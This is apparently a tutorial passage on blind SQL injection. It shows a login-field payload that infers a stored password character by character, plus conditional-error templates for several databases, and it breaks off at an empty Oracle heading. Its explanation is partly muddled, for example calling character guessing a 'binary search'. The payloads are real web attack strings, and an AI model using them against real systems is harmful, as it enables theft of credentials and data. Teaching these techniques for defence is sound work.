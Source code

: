 In this example, the application suppresses error messages and only provides generic login feedback. An attacker aims to exploit blind SQL injection to infer information about the database.

The attacker injects the following username during login:

```sql
' OR (SELECT 'abc' FROM dual WHERE SUBSTRING((SELECT password FROM users LIMIT 1), 1, 1) = 'a') -- 
```

Explanation of the injected input:

- The single-quote (`'`) after the empty username field is used to close the opening single-quote for the username parameter.
- `OR` introduces a new condition that is always true, bypassing the password check.
- The subquery `(SELECT 'abc' FROM dual WHERE SUBSTRING((SELECT password FROM users LIMIT 1), 1, 1) = 'a')` checks if the first character of the password for the first user in the database is equal to 'a'.
- The double-dash (`--`) represents a SQL comment, which comments out the rest of the query.

The application's response will be either "Login successful!" or "Invalid credentials!". Based on the response, the attacker can infer whether the first character of the password matches 'a'. By repeating the process for different characters, the attacker can gradually reconstruct the password through a process called "binary search" or "blindfolded guessing."

This example demonstrates how an attacker can exploit blind SQL injection by triggering conditional errors to infer sensitive information, such as the password, without directly seeing the database's contents. To prevent blind SQL injection, developers should use parameterized queries or prepared statements and ensure that user input is correctly sanitized and validated before use in SQL queries.

## Example with the following scripts

Using form of `CASE` statement we will determine administrator password

```sql
CASE WHEN age > 18 THEN 'Adult' WHEN age > 13 THEN 'Teenager' ELSE 'Child' END
```

### PostgreSQL

```sql
1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)
```

### Microsoft SQL

```sql
SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END
```

### MySQL

```sql
SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')
```

### Oracle
